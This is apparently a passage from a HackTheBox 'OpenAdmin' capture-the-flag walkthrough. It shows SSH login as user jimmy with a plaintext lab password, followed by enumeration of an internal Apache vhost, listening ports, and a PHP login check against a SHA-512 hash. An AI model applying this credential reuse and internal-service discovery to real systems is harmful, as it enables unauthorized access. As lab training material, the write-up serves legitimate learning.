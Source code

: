 
fuckin’ hell… with just a hint from hackthebox forums, tried the sql creds for jimmy’s ssh login and succeeded.
```
Lytes
January 6 edited January 6 Report Spoiler
I got the www-data level shell but I cant seem to find anything interesting, any help would go a long way. Kindly PM. Thanks.
P.S: I found my**l credentials but cant figure out how to use em with RCE
EDIT: Nevermind, found who the my**l creds belong too ^_^
```


### `ssh jimmy@openadmin.htb` / n1nj4W4rri0R!


### `/etc/apache2/sites-enabled$ id`
```
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```


### `/etc/apache2/sites-enabled$ cat internal.conf`
```html
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```


### `etc/apache2/sites-enabled$ netstat -ant | grep LISTEN`
```
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN 
```


### `/var/www/internal$ cat index.php`
```php
if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1')
```
